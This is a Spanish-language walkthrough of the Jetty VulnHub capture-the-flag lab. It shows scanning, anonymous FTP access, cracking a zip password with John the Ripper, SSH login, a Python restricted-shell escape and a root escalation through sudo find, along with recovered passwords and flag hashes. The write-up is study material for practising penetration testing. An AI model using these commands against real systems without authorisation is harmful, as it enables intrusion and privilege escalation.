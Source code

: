 ```yaml
---
icon: flag
---
```


# Jetty VulnHub

### Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-24 05:41 EDT
Nmap scan report for 192.168.5.201
Host is up (0.00070s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.5.175
|      Logged in as ftp
|      TYPE: ASCII
|      Session bandwidth limit in byte/s is 2048000
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rwxrwxrwx    1 ftp      ftp           306 Oct 06  2018 README.txt [NSE: writeable]
|_-rwxrwxrwx    1 ftp      ftp           226 Oct 06  2018 sshpass.zip [NSE: writeable]
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-robots.txt: 4 disallowed entries 
|_/dir/ /passwords/ /facebook_photos /admin/secret
65507/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a0:5b:e6:bb:fd:f6:02:ec:f0:bd:a1:be:b8:97:84:ba (RSA)
|   256 e9:d3:50:26:7e:5a:c2:a0:b0:89:c9:f4:64:d8:aa:b0 (ECDSA)
|_  256 2e:67:c1:af:cc:22:5c:59:15:5f:97:f7:2e:1b:e0:93 (ED25519)
MAC Address: 00:0C:29:39:5C:73 (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.10 seconds
```

### ftp

```shell
ftp anonymous@<IP>
```

Nos encontraremos con 2 archivos...

```shell
get README.txt

get sshpass.zip
```

El archivo `README.txt` contiene lo siguiente...

```
Hi Henry, here you have your ssh's password. As you can see the file is encrypted with the default company's password. 
Please, once you have read this file, run the following command on your computer to close the FTP server on your side. 
IT IS VERY IMPORTANT!! CMD: service ftp stop. 

Regards, Michael.
```

No da una pista de que el `.zip` esta protegido por una contraseña y contiene la contraseña del `ssh` del usuario `Henry`...

Por lo que haremos lo siguiente...

```shell
zip2john sshpass.zip > hash
```

Info:

```
ver 1.0 efh 5455 efh 7875 sshpass.zip/sshpass.txt PKZIP Encr: 2b chk, TS_chk, cmplen=38, decmplen=26, crc=CA21C815 ts=45E9 cs=45e9 type=0
```

```shell
john --wordlist=<WORDLIST> hash
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
seahorse!        (sshpass.zip/sshpass.txt)     
1g 0:00:00:00 DONE (2024-06-24 05:47) 1.612g/s 2114Kp/s 2114Kc/s 2114KC/s sharda16..saytown
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Veremos la contraseña que decomprime el `.zip` del `ssh`...

```shell
unzip sshpass.zip
```

Y metemos la contraseña `seahorse!`...

Nos dara un archivo llamado `sshpass.txt` que contiene lo siguiente...

```
Squ1d4r3Th3B3$t0fTh3W0rLd
```

### Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt,md -t 100 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.5.201/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              md,html,php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess.md         (Status: 403) [Size: 300]
/.htaccess.html       (Status: 403) [Size: 302]
/.htaccess.php        (Status: 403) [Size: 301]
/.htaccess.txt        (Status: 403) [Size: 301]
/.htaccess            (Status: 403) [Size: 297]
/.htpasswd            (Status: 403) [Size: 297]
/.htpasswd.php        (Status: 403) [Size: 301]
/.htpasswd.html       (Status: 403) [Size: 302]
/.htpasswd.txt        (Status: 403) [Size: 301]
/.htpasswd.md         (Status: 403) [Size: 300]
/index.html           (Status: 200) [Size: 23]
/recoverpassword.txt  (Status: 200) [Size: 1029]
/robots.txt           (Status: 200) [Size: 104]
/robots.txt           (Status: 200) [Size: 104]
/server-status        (Status: 403) [Size: 301]
Progress: 102345 / 102350 (100.00%)
===============================================================
Finished
===============================================================
```

Pero poca cosa, si vamos a la descripcion de VulnHub en la que nos detalla el sistema, veremos lo siguiente...

```
Extra information:

- The suspicious username is Squiddie.
- He was in charge of the ticket selling for the Aquarium.
- Ethernet settings set to NAT with DHCP enabled.
- You should find the IP in your VLAN.
```

Y si probamos el nombre de usuario `squiddie` en el `ssh` con la contraseña encontrada anteriormente, veremos que es esa...

```
User = squiddie
Password = Squ1d4r3Th3B3$t0fTh3W0rLd
```

```shell
ssh squiddie@<IP> -p 65507
```

Una vez dentro veremos que tenemos restringido casi todo, pero si hacemos lo siguiente...

```shell
help
```

Info:

```
cd  clear  exit  help  history  lpath  ls  lsudo  pwd  python  whoami
```

Vemos que solo podemos hacer esos y el que nos interesa es el de `python`...

```shell
python
```

```python
import os
os.system('/bin/bash')
```

Poniendo eso dentro del entorno de `python` nos dara una shell de `bash` por lo que ya habriamos escapado y podremos hacer cualquier comando sin estar de forma restringida...

Leeremos la flag...

> user.txt (flag1)

```
dd69f649f3e5159ddd10b83b56b2dda2
```

Si hacemos `sudo -l` veremos lo siguiente...

```
Matching Defaults entries for squiddie on jetty:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User squiddie may run the following commands on jetty:
    (ALL) NOPASSWD: /usr/bin/find
```

Veremos que podemos hacer `find` como `root` por lo que haremos lo siguiente para ser `root`...

```shell
sudo find . -exec /bin/sh \; -quit
```

Y con esto ya seriamos `root`, por lo que leeremos la flag...

> proof.txt (flag2)

```
136d05d01c8af5d3e3520d2c270f91f1
```
